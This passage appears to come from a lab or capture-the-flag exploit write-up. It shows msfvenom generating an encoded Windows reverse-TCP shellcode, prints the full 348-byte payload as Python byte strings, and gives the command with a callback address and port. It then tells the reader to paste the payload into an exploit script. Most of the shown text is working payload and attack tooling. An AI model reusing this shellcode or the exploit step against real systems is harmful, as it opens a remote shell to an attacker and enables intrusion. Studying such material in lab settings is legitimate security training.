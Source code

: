 Which outputs this shellcode:

```python
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of python file: 1953 bytes
shellcode =  b""
shellcode += b"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
shellcode += b"\x5e\x81\x76\x0e\x93\xb9\x8e\xef\x83\xee\xfc"
shellcode += b"\xe2\xf4\x6f\x51\x0c\xef\x93\xb9\xee\x66\x76"
shellcode += b"\x88\x4e\x8b\x18\xe9\xbe\x64\xc1\xb5\x05\xbd"
shellcode += b"\x87\x32\xfc\xc7\x9c\x0e\xc4\xc9\xa2\x46\x22"
shellcode += b"\xd3\xf2\xc5\x8c\xc3\xb3\x78\x41\xe2\x92\x7e"
shellcode += b"\x6c\x1d\xc1\xee\x05\xbd\x83\x32\xc4\xd3\x18"
shellcode += b"\xf5\x9f\x97\x70\xf1\x8f\x3e\xc2\x32\xd7\xcf"
shellcode += b"\x92\x6a\x05\xa6\x8b\x5a\xb4\xa6\x18\x8d\x05"
shellcode += b"\xee\x45\x88\x71\x43\x52\x76\x83\xee\x54\x81"
shellcode += b"\x6e\x9a\x65\xba\xf3\x17\xa8\xc4\xaa\x9a\x77"
shellcode += b"\xe1\x05\xb7\xb7\xb8\x5d\x89\x18\xb5\xc5\x64"
shellcode += b"\xcb\xa5\x8f\x3c\x18\xbd\x05\xee\x43\x30\xca"
shellcode += b"\xcb\xb7\xe2\xd5\x8e\xca\xe3\xdf\x10\x73\xe6"
shellcode += b"\xd1\xb5\x18\xab\x65\x62\xce\xd1\xbd\xdd\x93"
shellcode += b"\xb9\xe6\x98\xe0\x8b\xd1\xbb\xfb\xf5\xf9\xc9"
shellcode += b"\x94\x46\x5b\x57\x03\xb8\x8e\xef\xba\x7d\xda"
shellcode += b"\xbf\xfb\x90\x0e\x84\x93\x46\x5b\xbf\xc3\xe9"
shellcode += b"\xde\xaf\xc3\xf9\xde\x87\x79\xb6\x51\x0f\x6c"
shellcode += b"\x6c\x19\x85\x96\xd1\x84\xe5\x9d\x98\xe6\xed"
shellcode += b"\x93\xa8\xdf\x66\x75\xd3\x9e\xb9\xc4\xd1\x17"
shellcode += b"\x4a\xe7\xd8\x71\x3a\x16\x79\xfa\xe3\x6c\xf7"
shellcode += b"\x86\x9a\x7f\xd1\x7e\x5a\x31\xef\x71\x3a\xfb"
shellcode += b"\xda\xe3\x8b\x93\x30\x6d\xb8\xc4\xee\xbf\x19"
shellcode += b"\xf9\xab\xd7\xb9\x71\x44\xe8\x28\xd7\x9d\xb2"
shellcode += b"\xee\x92\x34\xca\xcb\x83\x7f\x8e\xab\xc7\xe9"
shellcode += b"\xd8\xb9\xc5\xff\xd8\xa1\xc5\xef\xdd\xb9\xfb"
shellcode += b"\xc0\x42\xd0\x15\x46\x5b\x66\x73\xf7\xd8\xa9"
shellcode += b"\x6c\x89\xe6\xe7\x14\xa4\xee\x10\x46\x02\x6e"
shellcode += b"\xf2\xb9\xb3\xe6\x49\x06\x04\x13\x10\x46\x85"
shellcode += b"\x88\x93\x99\x39\x75\x0f\xe6\xbc\x35\xa8\x80"
shellcode += b"\xcb\xe1\x85\x93\xea\x71\x3a"
```

After pasting, the finished result should have your shellcode in place of the original, like so:

```python
#------------------------------------------------------------------------                                                                      
# REPLACE THIS SHELLCODE with shellcode generated for your use
[SNIP]


# Reverse TCP to 10.10.14.33 on port 4433:
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.33 LPORT=4433 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows -v shellcode

shellcode =  b""
shellcode += b"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
shellcode += b"\x5e\x81\x76\x0e\x93\xb9\x8e\xef\x83\xee\xfc"
shellcode += b"\xe2\xf4\x6f\x51\x0c\xef\x93\xb9\xee\x66\x76"
```